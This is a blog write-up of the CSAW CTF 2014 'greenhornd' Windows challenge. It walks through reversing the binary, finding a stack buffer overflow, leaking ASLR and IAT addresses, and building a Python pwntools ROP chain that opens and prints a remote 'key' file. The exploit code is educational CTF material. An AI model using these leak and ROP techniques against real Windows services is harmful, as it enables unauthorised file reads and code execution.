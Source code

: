 ```yaml
---
layout: post
title: "CSAW CTF 2014: greenhornd Writeup"
date: 2020-09-05
tags: [x86, Pwn] 
description: The post explains how to solve the greenhornd challenge from CSAW CTF 2014. 
---
```


# Introduction

Nowadays, I'm trying to learn windows exploitation by reading the tutorials and solving tasks that recommended by open-source [seminar](https://github.com/leesh3288/WinPwn/tree/master/Seminar/2019_Winter_WinPwn) written with the Korean language (Thanks to google translate) besides other external resources. So, I decided to provide writeups for the chosen challenges existed within the seminar repository.

Consequently, I am going today to solve my first 32-bit windows pwn challenge within window10 which is greenhornd from CSAW CTF 2014 using the Open-Read-Write ROP chain to read the file named key from a remote server. Additionally, I will use [AppJailLauncher](https://www.trailofbits.com/expertise/appjaillauncher/) to launch the exe file for providing a game server experience using the following command.

> CommandLine
{:.filename}
{% highlight bash %}
AppJailLauncher.exe /network /key:key /port:9998 /timeout:30 greenhornd.exe
{% endhighlight %}


# Finding the Vulnerability

First of All, I executed the greenhornd exe, and the following text got printed to the screen which asks you to find the secret key and it suggested that you can look at strings within the binary using strings utility or IDA disassembler (sorry I will use R2 cutter xD ).

![img]({{'/assets/images/greenhornd/pwn1.png' | relative_url }}){: .center-image }*(**Figure[1]**)*

So, I started to check the strings using Cutter and find the secret password which is **GreenhornSecretPassword!!!** as appear in **Figure[2]**.

![img]({{'/assets/images/greenhornd/pwn2.png' | relative_url }}){: .center-image }*(**Figure[2]**)*

After inputting the secret password, a menu with the following options printed to the screen as appear in **Figure[3]**.

![img]({{'/assets/images/greenhornd/pwn3.png' | relative_url }}){: .center-image }*(**Figure[3]**)*

As appear in **Figure[4]**, These options are represented in the disassembly by switch table for achieving the jump to certain function based on your choice. However, I'm just interested in only two options which are **(A)SLR** and **(V)ulnerability**.

![img]({{'/assets/images/greenhornd/pwn4.png' | relative_url }}){: .center-image }*(**Figure[4]**)*


Let's start with the (A)SLR option, It prints text about Address Layout Randomization in windows beside give us two anonymous addresses as appear in the next figure.

![img]({{'/assets/images/greenhornd/pwn5.png' | relative_url }}){: .center-image }*(**Figure[5]**)*

So let us back to the disassembler to figure out what these two addresses. As you see inside the red-colored rectangle block within **Figure[6]**, The function **A_SLR** gets the module handle of the current process through WinApi **GetModuleHandle** which is the same as the ImageBase address of exe in memory then save ImageBase subtracted by value **0x400000** in the variable on the stack. Afterward, It sends the **ImageBase-0x400000** and the address holding it to the function **WriteAddressesToStdout** to print them respectively as appear in a blue-colored rectangle block.

![img]({{'/assets/images/greenhornd/pwn6.png' | relative_url }}){: .center-image }*(**Figure[6]**)*

Now we are done with **(A)SLR**, So let us start checking the **(V)urlnerability** option. As you see in the following screenshot, there is a text that asks you to input 1024 characters with some constraints in the input string.

![img]({{'/assets/images/greenhornd/pwn7.png' | relative_url }}){: .center-image }*(**Figure[7]**)*

Let's jump to the **Vulnerable_Function** to analyze it and check what the type of vulnerability it contains. The instructions within the red-colored block in **Figure[8]** holds responsibility for reading a string from stdin to the buffer at stack address equal to **(ebp-400h)** with a max length of **2048** characters. Therefore, The classic buffer overflow vulnerability exists as the max size of the string exceeds the size of the buffer specified for the input string which is **1024** characters. 

However, The function can exit without returning which will prevent the execution of overwritten saved return address if the string does not achieve a certain constraint. As appear in the blue-colored block which is responsible for the last-mentioned constraint, The instructions check if the **1st character** equal to **'C'** or **2nd character** equal to **'S'** or **3rd character** is equal to '**A'** or **4th character** equal to **'W'** to return otherwise the function exit without returning.

![img]({{'/assets/images/greenhornd/pwn8.png' | relative_url }}){: .center-image }*(**Figure[8]**)*


# Exploiting the vulnerable function

Based on previous analysis, We concluded that the **Vulnerable_Function** contains Buffer overflow vulnerability and we will exploit that vulnerability to build our Open-Read-write ROP chain. So let's define our stack layout that achieves the goal of reading the file named **key** then prints it content to stdout.

As appear in **Figure[9]**, The left-hand side represents the stack state before overflowing while The right-hand side of the diagram represents the stack layout after overflowing with appropriate values that mirror the Open-Read-Write ROP chain. 

The Blue-colored block within the following Figure represents functions/ROP Gadgets address. On the other hand, The orange blocks represent the parameters for the functions. Additionally, The grey text within the blocks represents the value of that block. 

Also, The parameters labeled with the same number as a certain function are parameters of this function. 

![img]({{'/assets/images/greenhornd/pwn9.png' | relative_url }}){: .center-image }*(**Figure[9]**)*

As you see in the previous diagram, There are missing addresses that will be needed to build our ROP chain. These values are OpenFile, ReadFile, WriteToStdout, ImageBase, and finally stack address that represents InputAddress.

As appear in **Figure[5]**, The **(A)SLR** option leak the **ImageBase-0x400000** and stack address that hold it. So, We will use them to estimate ImageBase by adding the same subtracted value. Also, InputAddress will be calculated by adding the offset(between the stack address holding **ImageBase-0x400000** and the InputAddress) which equals **0x3F4** to stack leaked address as you see in the following code snippet.

> First leakage stage in python
{:.filename}
{% highlight Python %}
def First_Leakage_Stage(conn):
 print("[x] working on First Leakage Stage...")
 try: 
  conn.sendline(b'GreenhornSecretPassword!!!')
  conn.sendline(b'A')
  conn.recvuntil("ASLR slide is: ").decode()
  line = conn.recvuntil(".").decode()
  Base_address = int(line.split(" ")[0],16)+0x400000
  InputAddress = int(line.split(" ")[8].replace(".",""),16)-0x3f4
  print("[+] First Leakage Stage succeeded... ")
  return Base_address,InputAddress
 except:
     sys.exit(0)
{% endhighlight %}


As appear in **Figure[6]**, There is a function called **WriteToStdout** that is responsible for writing to Stdout. It takes only one parameter that represents the address of string/bytes to write it to screen and it's located at address equals **ImageBase+0x14d0**.

Now we will work on leaking the addresses of **OpenFile** and **ReadFile** WinApi functions, The ReadFile is imported in the binary file which means its address saved inside IAT at address equal to **ImageBase+0x2014**.

So, Our plan will be based on overflowing the **Vulnerable_Function** to pass the IAT entry address of ReadFile function(**ImageBase+0x2014**) as a parameter to WriteToStdout As appear in **Figure[10]**.

![img]({{'/assets/images/greenhornd/pwn10.png' | relative_url }}){: .center-image }*(**Figure[10]**)*

In the following code snippet, We will receive the ReadFile Function address from Stdout. Then we will estimate the OpenFile function which equals **Readfile address + 0x35350**.

> Second leakage stage in python
{:.filename}
{% highlight Python %}
def Second_Leakage_Stage(conn,ImageBase):
 print("[x] working on Second Leakage Stage...")
 try:   
  conn.sendline(b'V')
  Payload=  b'CSAW'+b'A'*1024
  Payload+= p32(ImageBase+0x14d0) # WriteToStdout function
  Payload+= p32(ImageBase+0x1137) # ret address = vulnerable function
  Payload+= p32(ImageBase+0x2014) # import table entry that hold readfile address within Kernel32.dll
  conn.sendline(Payload)
  conn.recvuntil("with some constraints).\n\n")
  data= conn.recv(4)
  readfile = u32(data.decode())
  openfile = readfile+0x35350
  print("[+] Second Leakage Stage succeeded... ")
  return readfile,openfile
 except: 
  print("[-] Second Leakage Stage Failed... ")
  sys.exit(0)
{% endhighlight %}


Now we have all the addresses we need to construct our ROP chain that defined in **Figure[9]** and we will achieve it by using the following snippet of code.

> Constructing ROP chains
def Open_Read_Write(conn,InputAddress,ImageBase,readfile_Fun,openfile_Fun):
 print("[x] reading key file from remote server...")   
 try:
  Payload= b'CSAW'+b'A'*1020 #Bypass condition & overflowing
  Payload+=p32(InputAddress+1056+8) # address to save the returned handle
  Payload+=p32(openfile_Fun) #address of openfile functions
  Payload+=p32(ImageBase+0x1ce8) # mov dword[ebp-8],eax gadget , eax ==> handle
  Payload+= p32(InputAddress+1248)+p32(InputAddress+1184)+p32(0) # openfile parameters , (lpname,structure,null)
  Payload+= p32(readfile_Fun) # readfile function address
  Payload+= p32(ImageBase+0x14d0) # print to screen function
  Payload+= b'b'*4 # (first parameter of readfile)random bytes which will be overwritten with handle value
  Payload+=p32(InputAddress+1084)+p32(100)+p32(0)+p32(0) # buffer+size_of_string+null+null
  Payload+= p32(ImageBase+0x128f) #exit(1) function 
  Payload+= p32(InputAddress+1084) #buffer to be printed to stdout
  Payload+= b'\x00'*100 # buffer values
  Payload+=b'c'*64 #openfile structure
  Payload+=b'key'+b'\x00' #filename
  conn.sendline(Payload)
  conn.recvuntil(".").decode() 
  print("[+] reading key file Succeeded and it contain following text:")
  print(conn.recvall().decode().split("\n")[2])
 except:
      print("[-] Failed to read file name key on remote server... ") 
      sys.exit(0)
{% endhighlight %}

The whole exploit script exists [Here](https://github.com/oviche/WindowsPwn/blob/master/greenhornd/exploit.py).





